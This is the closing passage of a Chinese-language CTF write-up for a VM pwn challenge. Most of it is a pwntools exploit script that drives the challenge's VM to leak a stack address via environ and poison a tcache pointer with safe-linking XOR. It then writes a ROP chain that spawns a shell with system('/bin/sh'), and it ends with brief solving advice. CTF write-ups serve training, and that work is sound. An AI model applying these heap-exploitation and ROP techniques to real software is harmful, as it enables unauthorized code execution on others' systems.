code+=p32(0x0090000f).ljust(10,b'\x00')
code+=p32(0x030000cc) # chunk5

# add 0x90
code+=p32(0x0090000f).ljust(10,b'\x00')
code+=p32(0x030000cc) # chunk6[environ]

# read_from_heap_6[environ]
code+=p32(0x0006000f).ljust(10,b'\x00') # index
code+=p32(0x0020010f).ljust(10,b'\x00') # offset
code+=p32(0x0008020f).ljust(10,b'\x00') # length
code+=p32(0x060000cc) # case6  write_to_memory

# leak_stack_addr
code+=p32(0x0001000f).ljust(10,b'\x00') # fd
code+=p32(0x0020010f).ljust(10,b'\x00') # offset
code+=p32(0x0008020f).ljust(10,b'\x00') # length
code+=p32(0x010000d4) # 泄露stack地址

# 重新读入
code+=p64(0x000000000001000f)
code+=p64(0x00000000010f0000)
code+=p64(0x001b020f00000000)
code+=p64(0x00d4000000000000)
code+=p64(0x0081000000c00100)
code+=p64(0x00000200012b0181)
code+=p64(0x0f00001200000000)
code+=p64(0x0000000000030002)
code+=p64(0x0001a5000000cc00)


send_vmcode(code)
io.sendline(p64(((heap_base+0x360)>>12)^environ))
stack_addr=u64(io.recv(6).ljust(8,b'\x00'))-0x1d8-0x30+0x80 # 返回地址附近的栈地址，要注意对齐
success('stack_addr:'+hex(stack_addr))

#gdb.attach(io)
#pause()

# add 0x80
code=p32(0x0080000f).ljust(10,b'\x00')
code+=p32(0x030000cc) # chunk7

# add 0x80
code+=p32(0x0080000f).ljust(10,b'\x00')
code+=p32(0x030000cc) # chunk8

# add 0x80
code+=p32(0x0080000f).ljust(10,b'\x00')
code+=p32(0x030000cc) # chunk9

# free_heap_7
code+=p32(0x0007000f).ljust(10,b'\x00') # index
code+=p32(0x040000cc)

# free_heap_8
code+=p32(0x0008000f).ljust(10,b'\x00')
code+=p32(0x040000cc)

# read 读入stack
code+=p32(0x0000000f).ljust(10,b'\x00') # fd
code+=p32(0x0020010f).ljust(10,b'\x00') # offset
code+=p32(0x0020020f).ljust(10,b'\x00') # length
code+=p32(0x000000d4) # case 0

# write_to_heap_8，篡改chunk8的fd指向stack
code+=p32(0x0008000f).ljust(10,b'\x00') # index
code+=p32(0x0020010f).ljust(10,b'\x00') # offset
code+=p32(0x0008020f).ljust(10,b'\x00') # length
code+=p32(0x050000cc)

# add 0x80
code+=p32(0x0080000f).ljust(10,b'\x00') 
code+=p32(0x030000cc) # chunk10

# add 0x80
code+=p32(0x0080000f).ljust(10,b'\x00') 
code+=p32(0x030000cc) # chunk11[stack]

# read 读入rop链
code+=p32(0x0000000f).ljust(10,b'\x00')  # fd
code+=p32(0x0020010f).ljust(10,b'\x00')  # offset
code+=p32(0x0051020f).ljust(10,b'\x00')  # length
code+=p32(0x000000d4)

# write_to_heap_b，向栈中写入rop链
code+=p32(0x000b000f).ljust(10,b'\x00') # index
code+=p32(0x0020010f).ljust(10,b'\x00') # offset
code+=p32(0x0050020f).ljust(10,b'\x00') # length
code+=p32(0x050000cc)

code+=p64(0) # 触发“Segment error”

send_vmcode(code)
io.sendline(p64(((heap_base+0x490)>>12)^stack_addr))
payload=p64(stack_addr)*4+p64(rdi)+p64(ret)+p64(rdi)+p64(bin_sh)+p64(system)
io.sendline(payload)

#gdb.attach(io)
#pause()

io.interactive()

```



### 总结

这是一道vm pwn，代码量很大， 如果一个一个慢慢分析的话5小时内估计很难做完，所以我们要根据题目自带的vmcode学会“猜”哪些是有用的，就比如其实这道题的choice1和choice2我们是可以不用的，已经里面其他分支我们也可以不用，所以做这类题可以先看一些功能，根据这些已有的功能想解题思路，如果因为缺乏某一步导致无法解决，我们再回去找其他合适的功能即可，这样也能大大减少工作量。
